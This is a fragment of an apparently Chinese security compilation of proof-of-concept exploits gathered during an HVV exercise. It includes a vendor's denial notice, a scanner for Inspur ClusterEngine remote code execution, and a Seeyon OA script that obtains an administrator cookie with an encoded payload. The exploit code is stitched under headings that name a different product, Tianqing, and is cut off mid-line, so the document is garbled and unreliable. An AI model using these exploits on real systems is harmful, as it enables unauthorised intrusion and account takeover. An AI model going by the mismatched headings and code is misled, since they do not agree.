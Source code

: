 ```

**官方辟谣**

默安科技关注到业内有人散布 “默安科技幻阵管理后台存在认证绕过漏洞” 的不实消息，特此作出如下说明。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/k89AZuPTXhyDHticBAbNMfhOsxMtGhribAicKldHwKJRYa5XzdRzkkOyAEzczFcmrKo89iaPExDleGFCjNYySPqNfw/640)

### 0x09 天擎越权访问【官方辟谣】

**POC**

```
pip3 install -r requirements.txt
python3 clusterengine_poc.py -u http://127.0.0.1:1111



def verify(self, first=False):
        target = self.scan_info['Target']
        verbose = self.scan_info['Verbose']
        headers = {
            "Content-Type": "application/x-www-form-urlencoded"
        }
        payload = "op=login&user
        try:
            url = urljoin(target, '/login')
            resp = req(url, 'post', data=payload,headers=headers,verify=False)
            if ('{"err"' in resp.text) and (" syntax error: unexpected end of file" in resp.text):
                log.highlight("found Inspur ClusterEngine v4.0 Remote Code Execution")
                self.scan_info['Success'] = True
                self.scan_info['Ret']['VerifyInfo']['URL'] = url
                self.scan_info['Ret']['VerifyInfo']['Payload'] = payload
                self.scan_info['Ret']['VerifyInfo']['method'] = "POST"
                return
        except Exception as e:
            log.info("[*]Request to target URL fail! {}".forma
```

官方：近期，HVV 期间泄露情报，在 Web 登录界面且未登录的情况下会显示提示信息，并且会涉及用户组织，功能模块授权过期时间等。天擎官方发表声明并表示 Web 接口为正常接口，不存在漏洞。

### 0x10 天擎前台 SQL 注入漏洞【历史漏洞】

**PoC**

```
# coding: utf-8
import requests
import re
import time
proxy = {'http': '127.0.0.1:8080', 'https': '127.0.0.1:8080'}
def seeyon_new_rce(targeturl):
    orgurl = targeturl
    # 通过请求直接获取管理员权限cookie
    targeturl = orgurl + 'seeyon/thirdpartyController.do'
    post={"method":"access","enc":"TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04+LjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4","clientPath":"127.0.0.1"}
    response = requests.post(url=targeturl,data=post,proxies=proxy, timeout=60,verify=False)
    rsp = ""
    if response and response.status_code == 200 and 'set-cookie' in str(response.headers).lower():
        cookies = response.cookies